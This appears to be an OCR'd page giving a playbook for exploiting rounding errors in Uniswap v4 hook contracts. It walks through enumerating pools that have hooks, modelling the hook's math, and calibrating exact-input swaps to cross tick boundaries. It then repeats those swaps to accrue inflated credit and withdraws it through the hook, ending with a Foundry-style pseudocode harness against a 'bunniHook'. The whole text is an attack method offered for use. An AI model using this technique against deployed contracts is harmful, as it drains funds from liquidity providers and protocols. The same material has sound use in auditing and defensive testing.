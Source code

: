 1) Identify candidate pools with hooks
- Enumerate v4 pools and check PoolKey.hooks != address(0).
- Inspect hook bytecode/ABI for callbacks: beforeSwap/afterSwap and any custom rebalancing methods.
- Look for math that: divides by liquidity, converts between token amounts and liquidity, or aggregates BalanceDelta with rounding.

2) Model the hook’s math and thresholds
- Recreate the hook’s liquidity/redistribution formula: inputs typically include sqrtPriceX96, tickLower/Upper, currentTick, fee tier, and net liquidity.
- Map threshold/step functions: ticks, bucket boundaries, or LDF breakpoints. Determine which side of each boundary the delta is rounded on.
- Identify where conversions cast between uint256/int256, use SafeCast, or rely on mulDiv with implicit floor.

3) Calibrate exact‑input swaps to cross boundaries
- Use Foundry/Hardhat simulations to compute the minimal Δin needed to move price just across a boundary and trigger the hook’s branch.
- Verify that afterSwap settlement credits the caller more than the cost, leaving a positive BalanceDelta or credit in the hook’s accounting.
- Repeat swaps to accumulate credit; then call the hook’s withdrawal/settlement path.

Example Foundry‑style test harness (pseudocode)
```solidity
function test_precision_rounding_abuse() public {
    // 1) Arrange: set up pool with hook
    PoolKey memory key = PoolKey({
        currency0: USDC,
        currency1: USDT,
        fee: 500, // 0.05%
        tickSpacing: 10,
        hooks: address(bunniHook)
    });
    pm.initialize(key, initialSqrtPriceX96);

    // 2) Determine a boundary‑crossing exactInput
    uint256 exactIn = calibrateToCrossThreshold(key, targetTickBoundary);

    // 3) Loop swaps to accrue rounding credit
    for (uint i; i < N; ++i) {
        pm.swap(
            key,
            IPoolManager.SwapParams({
                zeroForOne: true,
                amountSpecified: int256(exactIn), // exactInput
                sqrtPriceLimitX96: 0 // allow tick crossing
            }),
            ""
        );
    }

    // 4) Realize inflated credit via hook‑exposed withdrawal
    bunniHook.withdrawCredits(msg.sender);
}
```

